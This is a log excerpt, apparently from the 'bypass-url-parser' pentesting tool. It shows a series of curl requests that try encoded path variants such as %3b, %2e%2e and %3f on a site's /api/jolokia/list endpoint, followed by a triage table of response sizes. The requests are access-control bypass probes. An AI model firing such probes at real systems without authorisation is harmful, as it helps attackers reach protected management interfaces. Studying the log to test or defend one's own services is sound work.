 2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b/..//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b//%2f..///list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b/%2e.//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b/%2e%2e/..%2f%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b/%2f%2f..///list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b%09//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b%2f..//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b%2f%2e.//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b%2f%2e%2e//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3b%2f%2e%2e%2f%2e%2e%2f%2f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3f//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3f%23//list'
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi --path-as-is -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36' -w '\nStatus: %{http_code}, Length: %{size_download}' 'http://thinkloveshare.com//api/jolokia//%3f%3f//list'
2022-05-10 15:54:09 work bup[738125] WARNING Stage: save_and_quit
2022-05-10 15:54:10 work bup[738125] INFO Saving html pages and short output in: /tmp/tmp48drf_ie-bypass-url-parser
2022-05-10 15:54:10 work bup[738125] INFO Triaged results shows the following distinct pages:
    9:   41 - 850a2bd214c68f582aaac1c84c702b5d.html
   10:   97 - 219145da181c48fea603aab3097d8201.html
   10:   99 - 309b8397d07f618ec07541c418979a84.html
   10:  100 - 9a1304f66bfee2130b34258635d50171.html
   10:  108 - b61052875693afa4b86d39321d4170b4.html
   10:  109 - 6fb5c59f5c29d23e407d6f041523a2bb.html
   11:  101 - 045d36e3cfba7f6cbb7e657fc6cf1125.html
   12:43116 - 9787a734c56b37f7bf5d78aaee43c55d.html